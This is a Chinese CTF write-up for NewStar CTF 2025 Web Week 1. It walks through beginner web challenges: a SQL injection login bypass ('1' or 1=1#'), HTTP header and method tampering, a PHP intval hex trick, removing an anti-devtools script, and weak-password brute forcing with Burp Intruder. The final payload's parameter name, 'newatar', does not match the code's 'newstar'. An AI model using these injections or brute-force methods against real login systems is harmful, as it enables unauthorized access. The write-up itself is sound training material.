

# NewStar CTF 2025 公开赛道 Web-Week1 题解
---

## 1. 题目：multi-headach3（难度：☆☆☆☆☆）
### 1.1 考点
robots.txt 协议解析、HTTP 重定向识别与抓包分析

### 1.2 题目描述


### 1.3 解题步骤
1. 访问 robots.txt 文件  
   进入题目初始页面后，在 URL 后拼接 `robots.txt`（完整路径为 `http://题目域名/robots.txt`），访问后得到配置内容：
   ```plaintext
   User-agent: *
   Disallow: /hidden.php
   ```
   该配置表明服务器禁止爬虫访问 `/hidden.php` 路径，此路径即为关键隐藏页面。

2. 分析重定向与抓包获取 flag  
   直接访问 `/hidden.php`（完整路径为 `http://题目域名/hidden.php`），会发现页面自动跳转回初始页面，无法直接查看内容。使用 Burp Suite 抓包：
   - 打开 Burp Suite，配置浏览器代理（默认端口 8080）。
   - 再次访问 `/hidden.php`，Burp 会捕获到该请求的响应包。
   
   - 在响应包的响应体或响应头中，可直接找到 flag。

---

## 2. 题目：strange_login（难度：☆☆☆☆☆）
### 2.1 考点
SQL 注入（报错注入排查、闭合符与注释符适配）

### 2.2 题目描述


### 2.3 解题步骤

1. 初步注入测试与报错分析  
   进入题目登录框，输入账号 `admin' or '1'='1'--`、任意密码（如 123），提交后出现报错：
   ```plaintext
   Query failed: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '123'' at line 1
   ```
   报错原因：注入语句中使用的 `--` 注释符未生效（可能服务器不支持该注释符），导致密码字段的引号与注入语句冲突，破坏 SQL 语法结构。

2. 更换注入语句成功登录  
   调整注入语句，使用 MySQL 支持的 `#` 注释符（需注意 URL 提交时无需转义，直接使用），账号输入：
   ```plaintext
   1' or 1=1#
   ```
   密码输入任意内容（如 123），提交后即可绕过登录验证，进入后台页面获取 flag。
   

---

## 3. 题目：黑客小 W 的故事（1）（难度：★½☆☆☆☆）
### 3.1 考点
HTTP 协议（JSON 响应包分析、请求方法 / 头修改、GET/POST 传参）

### 3.2 题目描述
~~不难但麻烦~~


### 3.3 解题步骤
1. 初始抓包分析进入题目页面后，直接使用 Burp Suite 抓包，准备后续改包操作。

~~叽里咕噜说什么呢~~


2. GET 传参触发有效提示页面初始提示不明确，点击 “提示” 后发现需通过 GET 传参触发下一步。




构造 GET 参数：?shipin=mogubaozi（完整路径为 http://题目域名/?shipin=mogubaozi），访问后获得清晰指引。
```plaintext
?shipin=mogubaozi
```

3. POST 传参与请求方法修改根据提示，需以 POST 方式发送参数 chongzi，同时将请求方法改为 DELETE（通过 Burp 修改请求行的请求方法）。


4. 修改 User-Agent 请求头按提示将请求头 User-Agent 改为指定内容：
```plaintext
User-Agent:CycloneSlash/2.0,DashSlash/5.0
```
5. 获取 flag
完成所有请求修改后，提交请求，页面返回 flag。


---

## 4. 题目：宇宙的中心是php（难度：☆☆☆☆☆）
### 4.1 考点
开发者工具使用、PHP 弱类型比较、进制转换

### 4.2 题目描述


### 4.3 解题步骤
1.  突破开发者工具限制，发现隐藏页面进入题目初始页面后，尝试直接按 F12 打开开发者工具，发现被禁用。通过浏览器设置手动开启开发者工具（如 Chrome 可通过 “设置→更多工具→开发者工具” 打开）；在开发者工具的「Elements」或「Sources」面板中， 发现隐藏路径 /s3kret.php。
2. 分析 /s3kret.php 代码逻辑访问 http://题目域名/s3kret.php，页面展示核心代码：

```plaintext
<?php
highlight_file(__FILE__);
include "flag.php";
if(isset($_POST['newstar2025'])){
    $answer = $_POST['newstar2025'];
    if(intval($answer)!=47&&intval($answer,0)==47){
        echo $flag;
    }else{
        echo "你还未参透奥秘";
    }
}
```

代码要求满足两个条件：
- intval($answer) != 47：直接转换为整数时不等于 47；
- intval($answer, 0) == 47：自动识别进制转换时等于 47（intval 第二个参数为 0 时，会识别 0x 前缀为十六进制）。
3. 构造 payload 满足条件核心思路：利用十六进制表示 47，47 的十六进制为 0x2F（大小写不敏感，0x2f 也可）；
intval("0x2F") → 直接转换忽略 0x 前缀，结果为 0（≠47）；
intval("0x2F", 0) → 识别为十六进制，转换为十进制 47（=47），刚好满足两个条件。
4. POST 提交 payload，获取 flag使用 Burp Suite 或 Postman 以 POST 方式提交参数：

```plaintext
newstar2025=0x2F
```


---

## 5. 题目：我真得控制你了（难度：☆☆☆☆☆）
### 5.1 考点
JS 函数篡改、开发者工具突破、弱密码爆破、PHP 命令执行绕过（正则过滤）

### 5.2 题目描述


### 5.3 解题步骤
1. 突破开发者工具限制，篡改 JS 启用按钮进入页面后发现按钮无法点击，F12 及相关快捷键被禁用。通过浏览器设置手动开启开发者工具，在「Sources」面板中查看页面 JS 代码：


```plaintext
<script>
        // 检查保护层状态
        function checkShieldStatus() {
            const shield = document.getElementById('shieldOverlay');
            const button = document.getElementById('accessButton');
            
            if (!shield) {
                button.classList.add('active');
                button.disabled = false;
            } else {
                button.classList.remove('active');
                button.disabled = true;
            }
        }
        

        checkShieldStatus();
        

        setInterval(checkShieldStatus, 500);
        

        document.getElementById('accessButton').addEventListener('click', function() {
            if (!document.getElementById('shieldOverlay')) {
                document.getElementById('nextLevelForm').submit();
            }
        });
        

        document.addEventListener('contextmenu', function(e) {
            e.preventDefault();
        });
        

        (function() {

            document.addEventListener('keydown', function(e) {
                // F12
                if (e.keyCode === 123) {
                    e.preventDefault();
                    showDevToolsWarning();
                }
                // Ctrl+Shift+I (Windows/Linux)
                if (e.ctrlKey && e.shiftKey && e.keyCode === 73) {
                    e.preventDefault();
                    showDevToolsWarning();
                }
                // Ctrl+Shift+J (Windows/Linux)
                if (e.ctrlKey && e.shiftKey && e.keyCode === 74) {
                    e.preventDefault();
                    showDevToolsWarning();
                }
                // Cmd+Option+I (Mac)
                if (e.metaKey && e.altKey && e.keyCode === 73) {
                    e.preventDefault();
                    showDevToolsWarning();
                }
                // Cmd+Option+J (Mac)
                if (e.metaKey && e.altKey && e.keyCode === 74) {
                    e.preventDefault();
                    showDevToolsWarning();
                }
                // Ctrl+U (查看源代码)
                if (e.ctrlKey && e.keyCode === 85) {
                    e.preventDefault();
                    showDevToolsWarning();
                }
            });
            

            let devtools = false;
            const threshold = 160;
            
            function checkDevTools() {
                const widthThreshold = window.outerWidth - window.innerWidth > threshold;
                const heightThreshold = window.outerHeight - window.innerHeight > threshold;
                const orientation = widthThreshold ? 'vertical' : 'horizontal';
                
                if (!(heightThreshold && widthThreshold) && 
                    ((window.Firebug && window.Firebug.chrome && window.Firebug.chrome.isInitialized) || 
                     widthThreshold || heightThreshold)) {
                    devtools = true;
                    showDevToolsWarning();
                } else {
                    devtools = false;
                }
            }
            

            setInterval(checkDevTools, 1000);
            

            function showDevToolsWarning() {
                const warning = document.getElementById('devToolsWarning');
                warning.style.display = 'flex';
                

                document.addEventListener('keydown', function closeWarning(e) {
                    if (e.key === 'Escape') {
                        warning.style.display = 'none';
                        document.removeEventListener('keydown', closeWarning);
                    }
                });
            }
            

            if (typeof console !== "undefined") {
                if (typeof console.log !== 'undefined') {
                    console.log = function() {};
                }
                if (typeof console.warn !== 'undefined') {
                    console.warn = function() {};
                }
                if (typeof console.error !== 'undefined') {
                    console.error = function() {};
                }
                if (typeof console.info !== 'undefined') {
                    console.info = function() {};
                }
            }
        })();
    </script>
```

核心 JS 逻辑：checkShieldStatus() 函数通过检测 shieldOverlay 元素是否存在，控制按钮启用状态。

```plaintext
// 篡改函数，强制启用按钮
function checkShieldStatus() {
    const button = document.getElementById('accessButton');
    button.classList.add('active');
    button.disabled = false;
}
// 移除保护层元素（可选）
document.getElementById('shieldOverlay')?.remove();
// 直接启用按钮（兜底方案）
document.getElementById('accessButton').disabled = false;
document.getElementById('accessButton').classList.add('active');
```
执行后按钮变为可点击状态

2. 弱密码爆破登录后台
点击按钮后跳转至登录页，根据提示推测为弱口令登录：


使用 Burp Suite 抓包，将登录请求发送至 Intruder 模块进行爆破：
- 账号字典：admin（默认常见管理员账号）；
- 密码字典：弱口令集合（如 111111、123456 等）；
  爆破成功，正确账号密码为 admin/111111。

3. 分析 PHP 命令执行过滤规则
登录后进入 PHP 命令执行页面，核心代码如下：

```plaintext
<?php
error_reporting(0);

function generate_dynamic_flag($secret) {
    return getenv("ICQ_FLAG") ?: 'default_flag';
}


if (isset($_GET['newstar'])) {
    $input = $_GET['newstar'];
    
    if (is_array($input)) {
        die("恭喜掌握新姿势");
    }
    

    if (preg_match('/[^\d*\/~()\s]/', $input)) {
        die("老套路了，行不行啊");
    }
    

    if (preg_match('/^[\d\s]+$/', $input)) {
        die("请输入有效的表达式");
    }
    
    $test = 0;
    try {
        @eval("\$test = $input;");
    } catch (Error $e) {
        die("表达式错误");
    }
    
    if ($test == 2025) {
        $flag = generate_dynamic_flag($flag_secret);
        echo "<div class='success'>拿下flag！</div>";
        echo "<div class='flag-container'><div class='flag'>FLAG: {$flag}</div></div>";
    } else {
        echo "<div class='error'>大哥哥泥把数字算错了: $test ≠ 2025</div>";
    }
} else {
    ?>
<?php } ?>
```
过滤规则总结：
- 允许字符：0-9、*、/、~、()、空格；
- 禁止仅输入数字和空格；
- 要求执行结果 $test == 2025。

4.构造绕过 payload，获取 flag

利用允许的运算符号构造表达式，满足结果为 2025：
```plain
?newatar=2025*2/2
```
该表达式符合过滤规则（包含 * 和 /，非纯数字），执行后 $test = 2025，页面返回 flag：

